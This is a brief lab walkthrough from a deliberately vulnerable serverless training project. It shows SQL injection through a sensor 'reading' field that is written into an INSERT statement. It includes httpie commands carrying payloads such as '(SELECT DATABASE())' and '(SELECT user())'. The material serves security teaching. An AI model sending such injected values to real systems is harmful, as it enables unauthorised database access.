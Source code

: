 ## SQL Injection - Event Injection

This is a slightly unconventional SQL Injection attack, in that, its triggered on an INSERT statement.

The SQLi can be triggered by tampering with the "reading" from the "sensor", you can trigger a SQL Injection attack on the INSERT Statement.

You can leverage mysql functions, global variables, etc for the attack

* Run `http GET https://f20ymqtwal.execute-api.us-east-1.amazonaws.com/api/test_insert`
* Run `http POST https://f20ymqtwal.execute-api.us-east-1.amazonaws.com/api/publish/testesh reading="(SELECT DATABASE())"`

Substitute `(SELECT DATABASE())` with `(SELECT @@datadir), (SELECT user()), (SELECT CURRENT_USER())`

* Run `cd /root/DVFaaS-Damn-Vulnerable-Functions-as-a-Service/injection/mqtt_rds_sql_event_injection`
* Run `cat app.py`

Let's look at the code